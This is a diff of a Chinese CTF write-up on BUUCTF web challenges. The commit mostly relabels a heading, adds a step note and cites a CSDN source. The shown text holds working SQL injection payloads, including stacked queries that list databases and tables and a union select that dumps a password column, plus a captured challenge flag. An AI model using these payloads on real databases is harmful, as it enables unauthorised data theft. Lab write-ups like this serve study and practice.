

Before and after one commit to adm3n-hnt/CTF-Study, a Markdown page: buuctf write up/web.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/buuctf write up/web.md
+++ b/buuctf write up/web.md
@@ -207,7 +207,7 @@ select命令被过滤了怎么办？我们还可以用handler命令进行查看
 查所有数据库,采用堆叠注入<br />`1;show databases;`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698665929401-d1ed791e-3482-437f-922e-d2013b67d69e.png#averageHue=%23f7f6f4&clientId=u0afe607f-2d1f-4&from=paste&height=175&id=u4356b753&originHeight=219&originWidth=1725&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36187&status=done&style=none&taskId=u11f7d0dc-8874-456c-b792-bd23c079d14&title=&width=1380)<br />查看所有数据表<br />`1;show tables;`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698733249276-b42032e3-6c64-471b-a9de-6a02dafdec20.png#averageHue=%23f9f8f7&clientId=u250485b3-3c63-4&from=paste&height=138&id=u666a75c4&originHeight=172&originWidth=748&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=10564&status=done&style=none&taskId=ue2f2e90a-b7c3-402f-8ec9-55e97ce2274&title=&width=598.4)<br />尝试爆Flag数据表的字段<br />`1;show columns from Flag;`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698736004092-1706d5e8-718a-4c60-b84c-d8138080676f.png#averageHue=%23f5f3f1&clientId=u250485b3-3c63-4&from=paste&height=99&id=udd705357&originHeight=124&originWidth=506&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=6587&status=done&style=none&taskId=uc246e44f-a815-4917-8a0b-541bf4ebe3c&title=&width=404.8)
 > 回显错误
 
-到这里，大佬们直接猜出了后端语句<br />`select $_GET['query'] || flag from Flag`<br />我直接好家伙，大佬果然是大佬<br />||就是SQL里面的逻辑或运算符<br />**解法1：**<br />`*,1`<br />那么传到后端语句就是<br />`select *,1 || flag from Flag`<br />这里我问了下文心一言，看完我也理解了
+到这里，大佬们直接猜出了后端语句<br />`select $_GET['query'] || flag from Flag`<br />我直接好家伙，大佬果然是大佬<br />||就是SQL里面的逻辑或运算符<br />**第一种解法 添加新列绕过逻辑或运算符：**<br />`*,1`<br />那么传到后端语句就是<br />`select *,1 || flag from Flag`<br />这里我问了下文心一言，看完我也理解了
 > 这段SQL代码的含义是：从Flag表中选择所有的列，以及由列flag的值与数字1进行连接生成的新列。
 > 具体来说：
 > select *：选择所有的列。
@@ -250,6 +250,8 @@ F12查看隐藏文件<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/3
 回显结果<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698909907759-b0b66239-ffcf-4a5e-a80c-4134772788ab.png#averageHue=%231d1d1d&clientId=u93f0fa3e-5d73-4&from=paste&height=826&id=ua7cdc6f2&originHeight=1032&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=608102&status=done&style=none&taskId=ue4086c16-4114-4e3d-b8f4-f18afffe7de&title=&width=1536)
 > 是
 
+判断注入手法类型
+
 > 使用堆叠注入
 > 采用密码参数进行注入
 
@@ -279,3 +281,4 @@ F12查看隐藏文件<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/3
 > 无flag
 
 转手数据表l0ve1ysq1<br />步骤和数据表geekuser一样，这里直接爆数据表l0ve1ysq1的flag值<br />`1' union select 1,database(),group_concat(password) from l0ve1ysq1#`<br />回显结果<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698912423460-3c81bdee-fb79-40c6-a33f-77d1ef31e897.png#averageHue=%23242322&clientId=u93f0fa3e-5d73-4&from=paste&height=828&id=u6276eb70&originHeight=1035&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=630684&status=done&style=none&taskId=uad685c97-2037-4584-b5df-0a79cd79221&title=&width=1536)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698912445735-b36fc7d2-cb85-49a3-a1bf-e1d6f21d01e5.png#averageHue=%23222222&clientId=u93f0fa3e-5d73-4&from=paste&height=826&id=u20939a6e&originHeight=1033&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=613901&status=done&style=none&taskId=ua38fbf35-d9a8-422a-b92e-f8170c73537&title=&width=1536)<br />**得出flag：**<br />`flag{3c4b1ff9-6685-4dcb-853e-06093c1e4040}`
+原文链接：https://blog.csdn.net/m0_73734159/article/details/134185235?csdn_share_tail=%7B%22type%22%3A%22blog%22%2C%22rType%22%3A%22article%22%2C%22rId%22%3A%22134185235%22%2C%22source%22%3A%22m0_73734159%22%7D
```
Also changed, not shown: other parts of buuctf write up/web.md (+1 -1 lines).
